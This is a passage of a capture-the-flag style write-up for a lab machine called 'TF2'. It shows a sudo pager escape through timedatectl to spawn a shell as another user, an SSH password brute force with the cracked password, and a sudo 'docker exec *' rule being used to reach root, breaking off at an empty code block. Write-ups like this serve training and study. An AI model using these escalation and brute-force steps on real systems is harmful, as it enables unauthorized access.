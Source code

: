 ```
Matching Defaults entries for veleta on TF2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User veleta may run the following commands on TF2:
    (ealasaid) /usr/bin/timedatectl
veleta@TF2:~$ 
```
To exploit these sudo permissions I run the command.
```
sudo -u ealasaid /usr/bin/timedatectl list-timezones
```
This opens up a list of all of the timezones available. By typing `!/bin/bash` it will spawn a shell as ealasaid
```
Africa/Porto-Novo
!/bin/bash
ealasaid@TF2:/home/veleta$ 
```
From here I can read the `user.txt` file
```
ealasaid@TF2:~$ cat user.txt 
a81be4e9b20632860d20a64c054c4150
```
Now also located in the user's home directory is a `list` text file. Inside that text file is what looks like the running docker containers
```
CONTAINER ID        IMAGE                           COMMAND                  CREATED             STATUS              PORTS                 NAMES
1786dd63dedb        wordpress:5.1.1-php7.3-apache   "docker-entrypoint.s…"   21 hours ago        Up 8 hours          0.0.0.0:80->80/tcp    wp_wordpress_1
91e4af64d213        mysql:5.7                       "docker-entrypoint.s…"   21 hours ago        Up 8 hours          3306/tcp, 33060/tcp   wp_db_1
```
The problem is I can't access them since I dont have the permission or maybe I do but I do not have the user's password to check. Doing some enumeration I found that I have access to the `/root` directory. Inside the directory there was an interesting `wp` folder.
```
ealasaid@TF2:/root$ ls
proof.sh  wp
```
Inside that wp folder it turns out is the same TFDocuments folder as was inside the docker container. SO was the `nb.txt` file. It looks like the files created here are shared in the docker container.
```
ealasaid@TF2:/root/wp/wp-content/TFDocuments$ ls
nb.txt
```
For now I was pretty much stuck as I couldn't write to the folder na dI cant execute docker commands. This lead me to try and bruteforce the users ssh password. After a few minutes I was successfull
```
[22][ssh] host: 192.168.86.136   login: ealasaid   password: dakota
```
Now running `sudo -l` with the new password I can see that I do have some sudo privileges
```
ealasaid@TF2:~$ sudo -l
[sudo] password for ealasaid: 
Matching Defaults entries for ealasaid on TF2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ealasaid may run the following commands on TF2:
    (ALL) /usr/bin/docker exec *
```
Now using the sudo privileges I log into the docker container but this time as the root user
```
```